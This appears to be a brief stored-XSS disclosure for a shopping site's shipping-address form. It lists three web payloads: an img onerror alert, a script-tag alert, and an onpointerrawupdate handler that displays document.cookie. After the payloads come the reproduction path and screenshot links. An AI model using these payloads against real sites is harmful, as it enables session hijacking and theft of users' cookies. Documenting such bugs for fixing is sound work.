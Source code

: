 

payload:

~~~
< img src="" onerror="alert('xss 注入')" /><SCRIPT>alert('XSS')</SCRIPT>">
~~~

~~~
<img src="" onerror="alert('xss 注入')" />
~~~

~~~
<img src=x onpointerrawupdate=(prompt)(document.cookie)>
~~~

My shipping address

Add a new shipping address under my shipping address

~~~
https://127.0.0.1/user/address
~~~

![1699343693574](paojd_Stored XSS.assets/1699343693574.png)

![1699343599707](paojd_Stored XSS.assets/1699343599707.png)

![1699343669059](paojd_Stored XSS.assets/1699343669059.png)